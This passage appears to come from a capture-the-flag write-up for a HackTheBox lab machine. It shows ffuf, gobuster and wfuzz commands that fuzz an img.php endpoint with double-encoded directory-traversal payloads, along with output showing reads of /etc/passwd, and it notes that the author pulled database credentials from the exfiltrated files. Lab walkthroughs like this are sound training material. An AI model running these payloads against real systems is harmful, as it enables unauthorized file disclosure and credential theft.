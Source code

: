 **Automated Path Traversal Technique**
```shell
# download payload
wget https://raw.githubusercontent.com/foospidy/payloads/master/other/traversal/dotdotpwn.txt   

# with ffuf
ffuf -c -s -ac -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt -t 50 -fs '0-30' -mc '200' 
<<SNIP
..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd
.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd
.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd
%2e.%252f%2e.%252f%2e.%252f%2e.%252fetc%252fpasswd
%2e.%252f%2e.%252f%2e.%252f%2e.%252f%2e.%252fetc%252fpasswd
%2e.%252f%2e.%252f%2e.%252f%2e.%252f%2e.%252f%2e.%252fetc%252fpasswd
%2e%2e%252f%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%252fpasswd
%2e%2e%252f%2e%2e%252f%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%252fpasswd
SNIP

# with gobuster
gobuster fuzz -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt  -t 50 -k -q --exclude-length '0,27,30' -b '404'
<<SNIP
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252fetc%252fpasswd
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd                  
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=.%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd         
Found: [Status=200] [Length=2235] https://broscience.htb/includes/img.php?path=%2e.%252f%2e.%252f%2e.%252f%2e.%252fetc%252fpasswd 
SNIP

# with wfuzz
wfuzz -c -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt -t 50 --filter "c=200 and w>50"
<<SNIP
000000157: 200 39 L  64 W  2235 Ch  "..%252f..%252f..%252f..%252fetc%252fpasswd"       
000000165: 200 39 L  64 W  2235 Ch  "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"          
000000161: 200 39 L  64 W  2235 Ch  "..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
000005197: 200 39 L  64 W  2235 Ch  ".%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd"                
000005201: 200 39 L  64 W  2235 Ch  ".%2e%252f.%2e%252f.%2e%252f.%2e%252f.%2e%252fetc%252fpasswd"       
SNIP
```
Studied the code in exfiltrated files. `db_connect.php` displays a postgres engine database credentials not publicly accessible. The `img.php` filters some words, decodes the path before displaying the passed file using a known php function, `file_get_contents`, vulnerable to directory traversal. Leveraged chat-gpt in understanding the `utils.php`  
[db_connect.php](#db_connect.php)
```php
<?php
$db_host = "localhost";
```